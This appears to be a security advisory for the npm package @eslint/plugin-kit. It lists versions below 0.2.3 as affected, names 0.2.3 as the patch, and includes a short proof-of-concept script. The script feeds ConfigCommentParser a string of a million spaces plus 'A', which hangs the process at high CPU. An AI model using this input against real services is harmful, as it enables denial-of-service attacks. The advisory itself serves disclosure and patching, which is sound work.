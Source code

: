 | Package                  | Affected versions | Patched version |
| ------------------------ | ----------------- | --------------- |
| @eslint/plugin-kit (npm) | < 0.2.3           | 0.2.3           |

# Proof of Concept

```js
const { ConfigCommentParser } = require("@eslint/plugin-kit");

var str = "";
for (var i = 0; i < 1000000; i++) {
  str += " ";
}
str += "A";

console.log("start");
var parser = new ConfigCommentParser();
console.log(parser.parseStringConfig(str, ""));
console.log("end");

// run `npm i @eslint/plugin-kit` and `node attack.js`
// then the program will stuck forever with high CPU usage
```
